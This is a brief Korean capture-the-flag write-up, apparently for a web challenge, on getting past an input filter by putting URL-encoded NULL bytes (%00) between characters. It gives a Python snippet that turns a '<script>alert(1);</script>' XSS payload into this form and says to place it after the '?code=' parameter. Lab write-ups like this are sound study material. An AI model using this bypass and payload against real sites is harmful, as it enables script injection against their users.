




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

뭔 놈의 필터링이 있는지 거의 모든 2글자 이상의 데이터를 넣으면 no hack이라고 나온다.



하지만 글자 사이에 %00(NULL을 URL encoding한 값)을 넣으면 출력된다.



inject해야 하는 데이터를 만들어보자.

```python
target  = '<script>alert(1);</script>'
code    = ''
for c in target: code += c + '%00'
print(code)

[Output]
<%00s%00c%00r%00i%00p%00t%00>%00a%00l%00e%00r%00t%00(%001%00)%00;%00<%00/%00s%00c%00r%00i%00p%00t%00>%00
```

?code=뒤에 직접 집어넣으면 점수를 획득할 수 있다.

